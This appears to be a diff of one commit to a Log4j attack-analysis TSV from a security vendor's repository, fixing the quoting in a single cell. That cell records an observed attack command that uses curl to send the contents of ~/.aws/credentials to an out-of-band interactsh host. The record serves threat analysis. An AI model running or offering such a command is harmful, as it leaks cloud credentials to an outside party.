

Before and after one commit to secureworks/log4j-analysis, a TSV file: taegis-log4j-ip-analysis.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Fix escaping

```diff
--- a/taegis-log4j-ip-analysis.tsv
+++ b/taegis-log4j-ip-analysis.tsv
-C35: curl -d \"$(cat ~/.aws/credentials)\" https://<redacted token>.interactsh[.]com
+C35: curl -d '$(cat ~/.aws/credentials)' https://<redacted token>.interactsh[.]com
```
